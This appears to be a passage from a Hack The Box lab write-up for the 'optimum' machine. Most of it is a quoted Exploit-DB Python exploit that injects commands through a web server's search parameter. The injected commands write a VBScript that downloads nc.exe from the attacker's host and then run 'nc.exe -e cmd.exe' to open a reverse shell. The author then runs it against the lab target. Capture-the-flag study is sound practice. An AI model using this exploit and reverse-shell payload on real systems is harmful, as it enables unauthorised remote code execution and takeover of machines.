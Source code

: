 ```python
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

This looked more promising as it had an actual payload. I changed the IP and port, and ran it.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ python2 39161.py 10.10.10.8 80
```

I didn't immediately get a hit.

Looking at my other listener, it now had some ICMP requests in it:

![[Pasted image 20210613113907.png]]
